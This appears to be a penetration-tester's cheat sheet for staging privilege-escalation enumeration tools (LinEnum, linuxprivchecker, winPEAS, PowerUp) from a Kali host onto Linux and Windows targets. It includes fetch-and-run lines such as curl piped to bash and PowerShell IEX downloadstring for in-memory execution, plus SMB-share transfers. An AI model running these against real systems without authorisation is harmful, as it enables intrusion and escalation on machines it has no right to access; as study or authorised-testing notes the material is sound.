 # Privilege Escalation

## Linux

### LinEnum.sh

- HTTP

Host the file
```
cd /opt/linux_privesc
sudo python -m http.server 80
```

```
curl http://<Kali IP>/LinEnum.sh | bash
```

```
wget http://<Kali IP>/LinEnum.sh
bash LinEnum.sh
```

### linuxprivchecker.py

- HTTP

Host the file
```
cd /opt/linux_privesc
sudo python -m http.server 80
```

```
wget http://<Kali IP>/linuxprivchecker.py
python linuxprivchecker.py
```


## Windows

### winPEAS

- HTTP

Host the file
```
cd /usr/share/windows-resources/binaries
sudo python -m http.server 80
```

Copy on Target and execute
```
Invoke-WebRequest -Uri 'http://<Kali IP>/winPEASany.exe' -OutFile <Path>\winPEASany.exe
<Path>\winPEASany.exe
```
Or execute direct on memory
```
IEX(New-Object Net.WebClient).downloadstring('http://<Kali IP>/winPEASany.exe')
```

- SMB

Host the file
```
cd /usr/share/windows-resources/binaries
impacket-smbserver share $(pwd) -smb2support
```

```
net use \\<Kali IP>\share
copy \\<Kali IP>\share\winPEASany.exe .
winPEASany.exe
```

### PowerUp

- HTTP

Host the file
```
cd /usr/share/windows-resources/powersploit/Privesc/
sudo python -m http.server 80
```

Copy on Target and execute
```
Invoke-WebRequest -Uri 'http://<Kali IP>/PowerUp.ps1' -OutFile <Path>\PowerUp.ps1
Import-Module <Path>\PowerUp.ps1
Invoke-AllChecks
```
Or execute direct on memory
```
IEX(New-Object Net.WebClient).downloadstring('http://<Kali IP>/PowerUp.ps1')
Invoke-AllChecks
```

- SMB

Host the file
```
cd /usr/share/windows-resources/powersploit/Privesc/
impacket-smbserver share $(pwd) -smb2support
```

```
net use \\<Kali IP>\share
copy \\<Kali IP>\share\PowerUp.ps1 .
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```


# Links

- [Basic Linux privilege escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
- [LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)
- [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker)